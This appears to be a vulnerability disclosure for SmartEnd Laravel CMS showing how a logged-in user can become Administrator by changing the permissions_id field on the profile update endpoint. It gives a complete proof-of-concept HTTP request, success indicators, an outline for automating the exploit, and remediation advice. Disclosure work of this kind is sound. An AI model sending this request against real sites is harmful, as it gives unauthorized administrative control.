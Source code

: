 # 🔓 SmartEnd Laravel CMS - Privilege Escalation via Role Tampering  

📌 **Product Information**  
**Platform**: Laravel (CMS: SmartEnd Laravel CMS)  
**Affected Feature**: User Role Update Endpoint  
**Tested Vulnerability**: Privilege Escalation via `permissions_id` Parameter Tampering  
**CVE**: Not Assigned  
**Severity**: Critical (Authenticated Privilege Escalation to Admin)  
**CWE ID**: CWE-269  
**CWE Name**: Improper Privilege Management  
**Patched**: ❌ Not Applicable  
**Patch Priority**: 🔴 High  
**Date Published**: June 13, 2025  
**Researcher**: yucaerin  
**Link Product**: https://codecanyon.net/item/smartend-laravel-admin-dashboard/19184332  

---

⚠️ **Summary of the Vulnerability**  
SmartEnd Laravel CMS allows authenticated users to update their own profile via:

```
POST /admin/users/[user_id]/update
```

However, this endpoint does **not** enforce any backend authorization check on the `permissions_id` field. By modifying this field in the request, an attacker can escalate their role from a basic user (e.g. Subscriber) to an Administrator.

## 🧪 Proof of Concept (PoC)  
**Sample POST Request:**
```http
POST /admin/users/6/update HTTP/2
Host: [REDACTED].com
Cookie: [VALID AUTH COOKIE]
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ

------WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="_token"

[CSRF_TOKEN]
------WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="name"

testuser
------WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="email"

testuser@example.com
------WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="permissions_id"

1
------WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryXYZ--
```

🧾 **Explanation of Key Parameter:**
- `permissions_id=3` → Subscriber (default)
- `permissions_id=1` → Administrator  
Changing this field directly escalates user privileges.

✅ **Indicators of Success:**
- HTTP 302 redirect to admin dashboard.
- Access to admin-only pages (e.g., `/admin/settings`) now permitted.
- User can now manage all users and system settings.

## 🔍 Where’s the Flaw?
- No server-side verification of who is allowed to change `permissions_id`.
- Trusting client input for sensitive access controls.
- No RBAC (Role-Based Access Control) enforcement in the update logic.

## 🔐 Recommendation
- Validate that only existing admins can assign or change `permissions_id`.
- Implement server-side RBAC checks to restrict role modification.
- Sanitize and whitelist acceptable values for critical fields.
- Log and alert on permission level changes.

## ⚙️ Optional Automation Features
A script can be written to:
- Log in as a standard user.
- Retrieve CSRF token from the edit page.
- Submit the tampered form with `permissions_id=1`.
- Confirm privilege escalation by visiting admin-only areas.

## ⚠️ Disclaimer  
This disclosure is for **educational and authorized security testing** only.  
Do **not** exploit this issue on live systems without explicit permission.  
Unauthorized access is illegal and unethical.
